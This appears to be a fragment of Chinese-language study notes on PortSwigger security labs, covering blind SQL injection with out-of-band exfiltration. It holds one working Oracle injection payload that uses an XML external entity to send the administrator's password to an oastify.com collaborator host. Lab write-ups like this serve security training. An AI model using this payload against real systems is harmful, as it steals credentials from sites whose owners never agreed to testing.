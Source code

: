 

## 17.实验室：盲 SQL 注入与带外数据泄露

![image-20250713004917493](portswigger.assets/image-20250713004917493.png)

![image-20250713011014918](portswigger.assets/image-20250713011014918.png)



**TrackingId=6JERDzuKsyGMSWEA'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.il7oquuy8okl1wibk9050gojqaw3ku8j.oastify.com">+%25remote%3b]>'),'/l')+FROM+dual--**



## 18.实验室：通过 XML 编码绕过过滤器的 SQL 注入

